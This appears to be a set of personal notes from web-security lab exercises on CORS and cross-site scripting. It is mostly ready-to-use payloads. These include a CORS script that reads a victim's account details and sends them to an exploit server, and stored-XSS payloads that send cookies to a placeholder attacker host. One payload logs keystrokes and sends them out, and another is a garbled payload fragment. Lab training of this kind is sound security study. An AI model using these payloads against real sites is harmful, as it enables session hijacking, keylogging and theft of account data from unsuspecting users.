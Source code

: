 ```
function reqListener() {
	fetch('https://exploit-0a9200830416b9a78023edee01d4008e.exploit-server.net/'+this.responseText);
};
</script>


<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ace007d04bcb93880c3ee7000dc00a5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://exploit-0a9200830416b9a78023edee01d4008e.exploit-server.net/'+this.responseText;
};
</script>
```

Labs Stuff: ---------------------------------------------------------------
##### Stored xss on comment that sends us the cookie to our server
```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>

1. <img src=x onerror=this.src="http://<IP>:80/?cookie="+btoa(document.cookie) />
    

<script>document.location='http://<IP>grabber.php?c='+btoa(document.cookie)</script>

<img src=x onerror='document.onkeypress=function(e){fetch("http://<IP>?k="+String.fromCharCode(e.which))},this.remove();'>
    
<!--[CDATA[BPP-Informe Banca Personal_02<br--><<img src=x onerror="this.src="[http://ip/?cookie="+btoa(document.cookie)">>2](http://ip/?cookie=%22+btoa(document.cookie)%22%3E%3E2 "http://ip/?cookie="+btoa(document.cookie)">>2") Alerts]]>
```
##### DOM XSS document.write sink using source location.search

```
Enter a random alphanumeric string into the search box.
Right-click and inspect the element, and observe that your random string has been placed inside an img src attribute.

Break out of the img attribute by searching for:
"><svg onload=alert(1)>
```
Basically trunking this img src ![[Pasted image 20230928120941.png]]
